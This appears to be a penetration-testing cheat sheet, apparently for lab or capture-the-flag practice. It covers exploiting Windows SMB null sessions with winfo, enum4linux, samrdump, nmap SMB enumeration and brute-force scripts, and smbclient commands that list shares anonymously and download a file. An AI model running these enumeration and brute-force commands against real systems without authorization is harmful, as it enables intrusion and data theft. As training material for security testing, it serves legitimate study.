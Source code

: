 ##### Exploiting Null Session with Winfo

Automates null session exploitation.

Use with `-n` to tell the tool to use null sessions

```bash
winfo <target_IP> -n
```

##### Exploiting Null sessions with Enum4linux

A PERL script that can perform the same operations of `enum` and `winfo`, supplying some other features:
- User enumeration
- Share enumeration
- Group and member enumeration
- Password policy extraction
- OS info detection
- A nmblookup run
- Printer information extraction


```bash
# Look for null sessions in the network
nmap -sS -p135,139,445 <IP>

# => enum4linux
# -n
# -P Password policies of the system
# -S shares available in the remote machine
# brute force:
enum4linux -s /usr/share/enum4linux/share-list.txt <IP>
# -a do all simple enumeration

# => samrdump
# It's under : /usr/share/doc/python-impacket-doc/examples
python samrdump <IP>

# => nmap
nmap -script=smb-enum-shares <IP>
nmap -script=smb-brute <IP>
```

Use samba in Kali:
```bash
> vi /etc/samba/smb.conf

# Under [global]
client min protocol = CORE
client max protocol = SMB3
client use spnego = no
client ntlmv2 auth = no

# Get file shares using smbclient
smbclient -L WORKGROUP -I <IP> -N -U ""

# Access to a folder
smbclient \\\\<IP>\\WorkSharing -N
smb: \> ls
smb: \> get flag.txt /home/kali/Desktop/flag.txt
```
